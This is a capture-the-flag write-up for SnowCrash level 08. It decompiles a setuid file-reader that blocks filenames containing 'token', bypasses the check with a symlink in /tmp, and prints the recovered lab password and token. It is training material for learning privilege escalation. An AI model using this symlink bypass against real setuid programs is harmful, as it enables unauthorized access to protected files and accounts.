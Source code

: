 # Level 08

Level 8 contains two files a setuid binary and a token file:

```bash
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
level08@SnowCrash:~$
```

the level08 binary takes a file as argument and shows it's content

```bash
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$ ./level08 /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
```

here is pseudo code from binary ninja
```c
08048554  int32_t main(int32_t argc, char** argv, char** envp)

0804856a      char** var_428 = envp
0804856e      void* gsbase
0804856e      int32_t eax_2 = *(gsbase + 0x14)
08048581      if (argc == 1)
08048595          printf(format: "%s [file to read]\n", *argv)
080485a1          exit(status: 1)
080485a1          noreturn
080485c1      if (strstr(haystack: argv[1], needle: "token") != 0)
080485d8          printf(format: "You may not access '%s'\n", argv[1])
080485e4          exit(status: 1)
080485e4          noreturn
080485fd      int32_t eax_14 = open(file: argv[1], oflag: 0)
0804860b      if (eax_14 == 0xffffffff)
08048629          err(eval: 1, fmt: "Unable to open %s", argv[1])
08048629          noreturn
08048645      void var_414
08048645      ssize_t eax_19 = read(fd: eax_14, buf: &var_414, nbytes: 0x400)
08048653      if (eax_19 == 0xffffffff)
0804866c          err(eval: 1, fmt: "Unable to read fd %d", eax_14)
0804866c          noreturn
08048688      ssize_t eax_22 = write(fd: 1, buf: &var_414, nbytes: eax_19)
0804869b      if (eax_2 == *(gsbase + 0x14))
080486a3          return eax_22
0804869d      __stack_chk_fail()
0804869d      noreturn
```

we can exploit this in two ways, we can create a symbolic link to the file token and try to read it, or simply patch the binary to remove the check for the string "token" and read the file directly but since this is a setuid binary we can't modify it, so we will go with the first option.

```bash
level08@SnowCrash:~$ ln -s ~/token /tmp/bruh
level08@SnowCrash:~$ ./level08 /tmp/bruh
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```



